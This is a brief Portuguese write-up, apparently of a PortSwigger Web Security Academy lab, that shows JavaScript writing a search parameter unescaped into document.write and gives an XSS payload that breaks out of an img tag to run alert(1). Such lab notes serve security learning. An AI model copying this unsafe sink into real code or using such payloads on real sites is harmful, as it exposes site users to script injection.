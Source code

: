 #ctf 

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink

Ao fazer uma pesquisa existe uma função que lança um `<img>` na DOM.

```javascript
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```

Para resolver basta enviar este payload:

```
"'><script>alert(1)</script>
```
